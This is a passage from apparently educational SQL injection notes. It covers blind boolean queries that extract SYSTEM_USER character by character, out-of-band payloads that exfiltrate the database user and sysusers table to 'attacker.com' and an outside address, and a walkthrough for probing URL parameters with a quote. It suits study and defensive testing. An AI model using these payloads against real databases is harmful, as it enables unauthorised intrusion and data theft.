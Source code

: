 * Response-based techniques (True or False): infer based on text in response. Examples:

```
SELECT count (*) FROM reviews WHERE author='bob' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='1' (true)
SELECT count (*) FROM reviews WHERE author='bob' and '1'='2' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SYSTEM_USER='john' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='a' (false)
SELECT count (*) FROM reviews WHERE author='bob' and SUBSTRING(SYSTEM_USER,1,1)='c' (true)
```
(and continue to iterate until finding the value of SYSTEM_USER).

* Utilize transport outside of HTTP response.

```
SELECT * FROM  reviews WHERE review_author=UTL_INADDR.GET_HOST_ADDRESS((select user from dual ||'.attacker.com'));
INSERT into openowset('sqloledb','Network=DBMSSOCN; Address=10.0.0.2,1088;uid=gds574;pwd=XXX','SELECT * from tableresults') Select name,uid,isntuser from master.dbo.sysusers--
```

### Common ways of Exploitation
* Every time you see an URL, the **question mark** followed by some type of letter or word means that a value is being sent from a page to another.

* In the example
```
http://www.website.com/info.php?id=10
```
the page *info.php* is receiving the data and will have some code like:
```
$id=$_post['id'];
```
and an associated SQL query:
```
QueryHere = "select * from information where code='$id'"
```



#### Checking for vulnerability
We can start to verifying whether the target is vulnerable by attaching a simple quote symbol ```'``` in the end of the URL:

```
http://www.website.com/info.php?id=10'
```

If the website returns the following error:

		You have an error in your SQL syntax...

It means that this website is vulnerable to SQL.

#### Find the structure of the database
To find the number of columns and tables in a database we can use [Python's SQLmap](http://sqlmap.org/).
